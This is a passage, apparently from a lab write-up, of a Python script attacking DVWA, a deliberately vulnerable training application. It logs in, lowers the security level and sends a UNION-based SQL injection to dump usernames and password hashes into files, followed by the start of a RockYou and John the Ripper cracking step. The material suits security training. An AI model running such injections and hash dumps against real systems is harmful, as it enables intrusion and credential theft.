 ```python
}
login_response = session.post(login_url, data=login_data)

if "Login failed" in login_response.text:
    print("[!] Login failed.")
    exit()

print("[+] Logged in.")

# Set security to low
sec_page = session.get(security_url)
soup = BeautifulSoup(sec_page.text, "html.parser")
token = soup.find("input", {"name": "user_token"})["value"]
session.post(security_url, data={"security": "low", "seclev_submit": "Submit", "user_token": token})

# Perform SQL Injection
payload = "1' UNION select user,password from dvwa.users -- "
params = {"id": payload, "Submit": "Submit"}
response = session.get(sqli_url, params=params)
soup = BeautifulSoup(response.text, "html.parser")

vuln_code = soup.find("div", {"class": "vulnerable_code_area"})
pre_tag = vuln_code.find_all('pre')

global_lines = []
for pre in pre_tag:
    text = pre.get_text(separator="|")
    lines = [line.strip() for line in text.split("|") if line.strip()]
    global_lines.extend(lines)

with open("users_and_hashes.txt", "w") as f_users, open("hashes.txt", "w") as f_hashes:
    username = None
    for line in global_lines:
        if "First name:" in line:
            username = line.replace("First name:", "").strip()
        if "Surname:" in line:
            password_hash = line.replace("Surname:", "").strip()
            f_users.write(f"{username}:{password_hash}\n")
            f_hashes.write(f"{password_hash}\n")
```

---

## 🛠️ Cracking Passwords with RockYou + John

### Step 1 - Unzip rockyou

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

---